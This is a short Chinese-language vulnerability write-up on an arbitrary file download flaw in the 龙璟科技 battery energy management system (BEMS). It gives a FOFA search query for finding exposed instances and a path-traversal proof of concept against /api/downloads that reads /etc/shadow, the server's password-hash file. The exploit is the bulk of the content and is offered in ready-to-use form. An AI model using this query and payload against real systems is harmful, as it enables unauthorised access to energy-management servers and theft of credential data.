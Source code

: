 # 龙璟科技 电池能量BEMS downloads 任意文件下载漏洞

## 漏洞描述

龙璟科技 电池能量BEMS 存在接口可任意文件下载获取服务器任意文件信息

## 漏洞影响

```
龙璟科技 电池能量BEMS
```

## FOFA

```
title=电池能量管理系统 BEMS
```

## 漏洞复现

登陆页面

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101906850.png)

验证POC

```plain
/api/downloads?fileName=../../../../../../../../etc/shadow
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101906628.png)